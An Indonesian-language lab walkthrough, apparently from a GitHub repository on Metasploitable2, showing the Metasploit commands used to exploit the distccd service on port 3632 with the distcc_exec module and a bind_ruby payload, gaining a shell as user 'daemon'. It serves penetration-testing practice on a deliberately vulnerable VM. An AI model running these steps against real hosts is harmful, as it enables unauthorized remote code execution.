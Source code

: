 # Exploit Port 3632 (distccd)
- Buka msfconsole di terminal
```sh
msfconsole
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20distccd/distccd%201.JPG)

- Gunakan modul `exploit/unix/misc/distcc_exec` untuk melakukan exploit pada distccd
```sh
use exploit/unix/misc/distcc_exec
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20distccd/distccd%202.JPG)

- Tampilkan daftar parameter yang dibutuhkan di modul tersebut
```sh
show options
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20distccd/distccd%203.JPG)

- Tampilkan daftar payload yang bisa dijalankan dimodul tersebut
```sh
show payloads
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20distccd/distccd%204.JPG)

- Isi parameter yang dibutuhkan di modul tersebut dan payload yang digunakan
```sh
set payload cmd/unix/bind_ruby
set rhosts <IP_metasploitable2>
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20distccd/distccd%205.JPG)

- Setelah pengisian parameter selesai jalankan modul tersebut. Disini exploit berhasil masuk ke dalam server. Jika diketik perintah whoami maka exploit masuk sebagai user `daemon`
```sh
exploit
```

![alt text](https://github.com/rahardian-dwi-saputra/metasploitable2/blob/main/assets/exploit%20distccd/distccd%206.JPG)